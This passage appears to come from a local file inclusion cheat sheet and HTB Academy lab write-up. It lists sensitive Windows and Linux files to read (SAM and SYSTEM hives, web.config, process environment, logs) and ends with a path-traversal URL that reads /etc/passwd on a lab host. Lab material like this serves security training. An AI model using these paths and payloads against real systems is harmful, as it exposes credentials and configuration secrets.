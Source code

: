 ```bash
/proc/1/environ             # Init process environment
```

### Windows System Files

**Essential System Files:**
```bash
# System information
C:\Windows\System32\drivers\etc\hosts   # Hosts file
C:\Windows\boot.ini                     # Boot configuration
C:\Windows\win.ini                      # Windows configuration
C:\Windows\System32\eula.txt           # System information

# User information  
C:\Windows\repair\SAM                   # SAM database backup
C:\Windows\System32\config\SAM         # SAM database
C:\Windows\System32\config\SYSTEM      # System registry
C:\Users\Administrator\Desktop\         # Admin desktop
C:\Users\Administrator\Documents\       # Admin documents
```

**IIS and Application Files:**
```bash
# IIS configuration
C:\inetpub\wwwroot\web.config          # IIS web configuration
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config  # .NET config

# Application files
C:\inetpub\wwwroot\index.html          # Default web page
C:\xampp\htdocs\                       # XAMPP web root
C:\wamp\www\                           # WAMP web root

# IIS logs
C:\inetpub\logs\LogFiles\W3SVC1\       # IIS access logs
C:\Windows\System32\LogFiles\          # System logs
```

---

## HTB Academy Basic LFI Labs

### HTB Academy Basic LFI Lab Solution

**Target:** Accessible via HTB Academy platform  
**Objective:** Find user starting with "b" and read flag.txt

#### Lab Solution 1: Find User Starting with "b"
```bash
# Read /etc/passwd to find users
http://94.237.60.55:55141/index.php?language=../../../../etc/passwd

# Look for users starting with "b"
# Expected users: barry, bin, backup, etc.
```
